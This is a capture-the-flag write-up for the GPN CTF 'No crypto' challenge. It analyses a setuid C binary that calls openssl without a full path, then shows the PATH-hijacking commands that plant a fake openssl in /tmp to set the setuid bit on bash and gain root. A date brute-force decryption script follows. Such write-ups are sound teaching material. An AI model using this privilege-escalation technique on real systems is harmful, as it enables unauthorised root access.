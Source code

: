 # No crypto

|||
|-|-|
|  **CTF**  |  [GPN CTF](https://play.ctf.kitctf.de/) [(CTFtime)](https://ctftime.org/event/2257)  |
|  **Author** |  13x1 |
|  **Category** |  Miscellaneous |
|  **Solves** |  24  |
| **Files** |  [no-crypto.tar.gz](<no-crypto.tar.gz>)  |

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/547f3042-d9e2-4082-8786-aca68cd496e2)

> If you don't like Github, read the writeup [here](https://learn-cyber.net/writeup/No-crypto)

# Solution

When we unzip the file, we can see a few files. Let's check the source of the binary called cli:

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
    while (1) {
        char date[256];
        printf("Guess when I was encrypted ([YYYY]-[MM]-[DD]T[HH]:[MM]:[SS]+[HH]:[MM]): ");
        if (fgets(date, sizeof(date), stdin) == NULL) {
            printf("Error reading input.\n");
            return 1;
        }
        date[strcspn(date, "\n")] = '\0';
        pid_t pid = fork();
        if (pid == -1) {
            printf("Error forking process.\n");
            return 1;
        } else if (pid == 0) {
            // Child process
            char* argv[] = {"openssl", "enc", "-d", "-aes-256-cbc", "-k", date, "-pbkdf2", "-base64", "-in", "flag.enc", "-out", "/dev/null", NULL};
            execvp("openssl", argv);
            printf("Error running openssl.\n");
            return 1;
        } else {
            // Parent process
            int status;
            waitpid(pid, &status, 0);
            if (WIFEXITED(status) && WEXITSTATUS(status) == 0) {
                printf("The guessed date is correct!\n");
                return 0;
            } else {
                printf("The guessed date is incorrect. Try again!\n");
            }
        }
    }
}
```

So, the binary first asks for a date. It then tries to decrypt the flag.enc file, and if the date is correct, it will let us know; otherwise, it will tell us it is wrong.


If we check the `encrypt.sh` file, we see that it encrypts the flag with OpenSSL based on the date:

```sh
date=$(date -uIseconds)
openssl enc -aes-256-cbc -k "$date" -pbkdf2 -base64 -in flag -out flag.enc
```

Let's check the Dockerfile of the challenge:

```dockerfile
# docker build -t no-crypto . && docker run -p 1337:1337 -t no-crypto
FROM debian:bullseye
RUN apt-get update && apt-get install -y --no-install-recommends build-essential openssl socat \
&& apt-get clean && rm -rf /var/lib/apt/lists/*
RUN mkdir /app
ARG FLAG=GPNCTF{fake_flag}
RUN echo "$FLAG" > /app/flag
COPY cli.c encrypt.sh /app/
WORKDIR /app/
RUN gcc -o cli cli.c \
&& bash encrypt.sh && rm flag \
&& chmod u+s cli \
&& chmod 700 /app/flag.enc
# save space in final image by uninstalling gcc and apt
RUN apt-get remove -y build-essential && apt-get autoremove -y && rm -rf /var/lib/apt/lists/*

RUN useradd -m ctf
USER ctf
EXPOSE 1337
CMD socat TCP-LISTEN:1337,reuseaddr,fork EXEC:/bin/bash,pty,stderr,sigint,sane
```

Here, we can see that it echoes the flag inside `/app/flag`. It then compiles the `cli` binary and runs `encrypt.sh`. After this, it will remove the flag and make the cli binary a `suid` binary. It also changes the permission of `flag.enc` so that only root can access it.

A few points we notice here is:

1. `ARG` is used for the flag, so the flag will not be available during runtime, only build time. If `ENV` was used, it would be accessible inside the container, but it is not useful because there is no process running as root; otherwise, we could get root and access `/proc/$PID/environ`.
2. Because of `chmod u+s`, `cli` is a `suid` binary. This means that no matter which user runs the binary, it always runs as the user that owns the file. In this case `root`.
3. We see that `encrypt.sh` is run, so we should check the date when `flag.enc` is created.

So, what is the bug?

A suid binary is not vulnerable by default. There are a few standard binaries in Linux that always have a suid bit, for example, `passwd`:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/b0cf6b97-bd34-4160-aff4-b3cda1fd378b)

So, it depends on the binary itself if it's vulnerable or not. If we take a closer look at `cli.c`, we can see that it calls `openssl` without using a full path (e.g., `/bin/openssl)`:

```c
char* argv[] = {"openssl", "enc", "-d", "-aes-256-cbc", "-k", date, "-pbkdf2", "-base64", "-in", "flag.enc", "-out", "/dev/null", NULL};
execvp("openssl", argv);
```

This means we can perform a trick called `path hijacking`. 
In Linux, when we call a binary, the system searches for the binary in a list of directories defined in the `$PATH` environment variable. We can modify this environment variable to anything we want.

An explanation of such attack, taken from [here](https://vk9-sec.com/privilege-escalation-linux-path-hijacking/):

1. Path Environment Variable: Linux systems have an environment variable called "PATH" that contains a list of directories in which the system searches for executable files. When a command is executed, the system looks for the corresponding executable file in these directories in the order specified by the PATH variable.
2. Finding a Vulnerable Application: The attacker looks for a vulnerable application that performs file operations or executes commands without properly validating user-supplied input or controlling the search path. For example, an application that uses relative paths or does not sanitize user input.
3. Identifying the Vulnerable Path: The attacker identifies a vulnerable point in the application where the input is used to construct a file path or command without proper validation. The goal is to find a way to manipulate the path used by the application to execute arbitrary files or commands.
4. Crafting the Attack: The attacker provides input that includes special characters or sequences to manipulate the path. These characters or sequences are designed to bypass security checks and allow the attacker to traverse directories or execute arbitrary files.
5. Exploiting the Vulnerability: By carefully constructing the input, the attacker can trick the vulnerable application into executing a malicious file or command. This can lead to various consequences, such as arbitrary code execution, unauthorized access, or privilege escalation.


In this challenge, we can do something like this:

```sh
echo -e '#!/bin/bash -p\nchmod +s /bin/bash' > /tmp/openssl # [1]
chmod +x /tmp/openssl # [2]
export PATH="/tmp:$PATH" # [3]
```
1. Here we create a file in `/tmp` with some code that will make the `bash` binary a suid binary.
2. We make the file executable.
3. We add the directory `/tmp` to our `PATH`. Notice that we add it at the beginning, so the system looks there first.

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/9bd134ac-f662-4323-b583-7a577508238e)
We can see that `/tmp` is now added.
With this setup, when we call `cli`, it will run as root and execute our custom `openssl` binary. 

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/f1dd58f3-f089-4fa3-881d-b03861d251bd)

We can see here that we successfully added a suid bit to `bash`. If we run `bash -p`, we will get the effective UID and GID of root. 
With this, we can read `flag.enc`.

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/eaae58e1-ebc7-4873-b6ec-f62728088e68)

We can now use `stat` on the file to see the exact date of the file:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/3e37ae00-cf6f-42fd-a9be-3fae97e23ba5)

We change the format a little bit and can run this command to decrypt the flag:

```bash
openssl enc -d -aes-256-cbc -k "2024-05-29T01:31:06+00:00" -pbkdf2 -base64 -in flag.enc -out flag.txt
```

During the ctf, I used the date from the output of `ls -la`, so I bruteforced the correct date.

```bash
#!/bin/bash

# Define the start and end times for the brute-force range
start_time="2024-05-29T01:31:00+00:00" # Adjust the date to the correct format and time
end_time="2024-05-29T01:32:00+00:00"   # Brute-forcing within a 1-minute window for example

# Convert start and end times to seconds since epoch
start_epoch=$(date -d "$start_time" +%s)
end_epoch=$(date -d "$end_time" +%s)

# Loop through each second in the range
for ((epoch=$start_epoch; epoch<=$end_epoch; epoch++)); do
    # Convert epoch back to the date format used in the key
    date=$(date -u -d "@$epoch" +"%Y-%m-%dT%H:%M:%S+00:00")
    
    # Attempt to decrypt the file
    output=$(openssl enc -d -aes-256-cbc -k "$date" -pbkdf2 -base64 -in flag.enc -out - 2>/dev/null)
    
    # Check if decryption was successful and contains "GPNCTF{"
    if [[ "$output" == *"GPNCTF{"* ]]; then
        echo "Decryption successful with key: $date"
        echo "$output"
        break
    fi
done
exit 1
```

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/6915f354-5cf5-491c-99ae-4c39ca1f301b)



